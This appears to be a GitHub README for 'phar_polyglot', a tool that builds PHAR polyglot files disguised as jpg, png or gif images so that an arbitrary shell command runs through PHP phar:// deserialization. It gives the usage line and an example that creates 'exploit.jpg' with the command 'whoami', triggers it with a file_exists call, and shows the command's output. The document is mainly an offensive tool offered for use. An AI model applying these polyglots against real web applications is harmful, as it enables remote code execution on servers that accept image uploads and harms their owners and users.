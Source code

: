 # phar_polyglot
Generate phar polyglot for jpg, png and gif

# Usage
```
Usage: php -c php.ini phar_polyglot.php <command> [jpg|png|gif]
```

# Example
```
php -c php.ini phar_polyglot.php whoami jpg
[+] Polyglot created: exploit.jpg

[+] To trigger the payload locally:
php -r 'file_exists("phar://exploit.jpg/test.txt");'
kali
```
